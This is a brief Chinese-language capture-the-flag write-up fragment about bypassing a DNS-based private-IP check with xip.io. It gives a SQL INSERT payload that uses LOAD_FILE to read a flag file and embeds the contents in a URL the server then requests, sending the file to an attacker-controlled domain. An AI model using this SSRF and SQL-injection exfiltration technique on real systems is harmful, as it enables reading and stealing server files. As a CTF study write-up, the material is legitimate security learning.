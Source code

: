 预期应该是外带，因为还有个路由可以访问vurl，但是有限制需要绕DNS，使得`https://dns.google.com/resolve?name=`{`vurl`}`&amp;type=A`查询出的结果能过`const isPrivate` ，即data为192.168开头。

利用[http://xip.io/](http://xip.io/)

www.192.168.1.1.xip.io会解析到192.168.1.1

nodejs中

request.get(‘[http://域名:www.192.168.1.1.xip.io](http://%E5%9F%9F%E5%90%8D:www.192.168.1.1.xip.io)‘) 会访问到域名，域名绑定到服务器，起个服务监听会显示访问记录

而且`https://dns.google.com/resolve?name=域名:www.192.168.1.1.xip.io&amp;type=A`显示的data为192.168.1.1满足条件

即要写入的`vurl`为

```
concat('域名:www.192.168.1.1.xip.io',LOAD_FILE('/home/ctf/ﬂag.txt'))
```

访问时就会带出flag,把下面语句base64或者16进制套到预编译语句里面，在访问`/api/notifystock`传入`{`“stockid”:”2333”`}`，服务器上应该有回显

```
INSERT INTO stock (stockid, name, quantity, vurl) VALUES (2333, 'aa', 22, concat('域名:www.192.168.1.1.xip.io',LOAD_FILE('/home/ctf/ﬂag.txt')));
```

参考: [https://ctftime.org/task/12160](https://ctftime.org/task/12160)
